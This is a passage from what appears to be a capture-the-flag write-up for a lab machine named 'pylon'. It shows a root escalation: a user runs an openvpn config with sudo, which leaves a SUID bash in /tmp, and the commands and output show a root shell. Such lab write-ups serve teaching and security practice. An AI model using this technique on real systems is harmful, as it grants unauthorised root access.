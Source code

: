 <figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Switch back to "Lone" user and run the openvpn file as root.&#x20;

```bash
lone@pylon:~$ sudo /usr/sbin/openvpn /opt/openvpn/client.ovpn
```

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It was successful, now check /tmp dir.

```
ls -l /tmp
```

And we see `bash` there with the SUID bit set.

```bash
lone@pylon:/tmp$ ./bash -p
bash-4.4# id
uid=1002(lone) gid=1002(lone) euid=0(root) groups=1002(lone)
bash-4.4# whoami
root
bash-4.4# 

```
